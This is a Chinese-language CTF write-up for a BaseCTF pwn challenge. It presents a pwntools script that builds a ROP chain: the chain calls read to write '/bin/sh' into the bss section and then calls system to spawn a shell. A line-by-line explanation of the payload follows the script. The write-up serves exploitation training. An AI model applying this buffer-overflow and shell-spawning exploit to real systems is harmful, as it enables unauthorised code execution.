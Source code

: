 # Basectf pwn方向“彻底失去她”

和“我把她丢了”比较类似，都是ROP简单构造，但是源码中没有bin/sh，需要通过read读取到bss段，再进行调用

需要注意read的三个参数顺序是rdi，rsi，rdx，我们应该依次布置为0，buf,0x10，此时调用read函数就是read(0,buf,0x10)

```
from pwn import *
p = process("./cdsqt")
elf = ELF('./cdsqt')

system = elf.plt['system']
read = elf.plt['read']
pop_rdi = 0x401196
pop_rsi = 0x4011ad
pop_rdx = 0x401265
bss = 0x4040A0

p.recv()

payload = b'a'*(0xa+8)
payload+=p64(pop_rdi)+p64(0)
payload+=p64(pop_rsi)+p64(bss)
payload+=p64(pop_rdx)+p64(0x10)
payload+=p64(read)#read(0,buf,0x10)
payload+=p64(pop_rdi)+p64(bss)+p64(system)

p.sendline(payload)
p.sendline(b'/bin/sh\x00')

p.interactive()
```

解释内容；

## payload = b'a'*(0xa+8)

填充字节，用于覆盖返回地址之前的内存空间，使其到达返回地址的位置

## payload+=p64(pop_rdi)+p64(0)

将0弹入rdi寄存器，因为rdi是read函数的第一个参数，表示文件描述符，0代表标准输入

## payload+=p64(pop_rsi)+p64(bss)

将bss段的地址弹到rsi寄存器，rsi是read函数的第二个参数，表示读取数据的缓冲区地址

## payload+=p64(pop_rdx)+p64(0x10)

将0x10弹到rdx寄存器，rdx是read函数的第三个参数，表示读取的字节数

## payload+=p64(read)

调用read函数，这个时候read函数被构造为了`read(0,bss,0x10)`,即从标准输入读取0x10个字节的数据到bss段

## payload+=p64(pop_rdi)+p64(bss)+p64(system)

将bss段的地址弹到rdi寄存器，作为system函数的参数，然后调用system

## 这里为什么没有ret了

建议自己搜索学习一下

提示bss段地址为`0x4040A0`,而“我把她丢了”的字符串bin/sh的地址为`0x402008`